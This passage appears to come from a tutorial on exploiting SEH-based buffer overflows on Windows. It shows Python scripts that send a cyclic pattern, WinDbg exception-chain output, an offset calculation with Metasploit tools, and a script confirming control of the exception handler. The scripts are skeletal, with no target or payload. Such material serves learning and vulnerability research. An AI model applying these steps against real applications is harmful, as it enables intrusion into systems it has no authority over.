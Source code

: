 Generate a unique pattern and feed it to the vulnerable application.

{% code title="sehof_send_pattern.py" %}
```python
#!/usr/bin/env python3

# msf-pattern_create -l 6000
buf = b'<UNIQUE_PATTERN>'
send(buf)
```
{% endcode %}

Inspect the crashed thread *ExceptionList* in WinDbg to find the overwritten value:

```
0:012> !teb
TEB at 00258000
    ExceptionList:        023aff54
0:012> dt _EXCEPTION_REGISTRATION_RECORD 023aff54
ntdll!_EXCEPTION_REGISTRATION_RECORD
   +0x000 Next             : 0x32664431 _EXCEPTION_REGISTRATION_RECORD
   +0x004 Handler          : 0x44336644     _EXCEPTION_DISPOSITION  +44336644

Or

0:012> !exchain
023aff54: 44336644
Invalid exception stack at 32664431
```

Calculate the offset from buffer to the target *_except_handler* overwrite:

```
$ msf-pattern_offset -l 6000 -q 44336644
[*] Exact match at offset 2499
```




## 2. Confirm SEH Overflow

Confirm that you can actually control the *Handler* value - if true, it will be overwritten with `d34dc0d3`.

{% code title="sehof_confirm.py" %}
```python
#!/usr/bin/env python3

size = 6000

filler  = b'A' * 2499
handler = LE(0xd34dc0d3)
junk    = b'C' * (size - len(filler + handler))

buf = filler + handler + junk
send(buf)
```
{% endcode %}
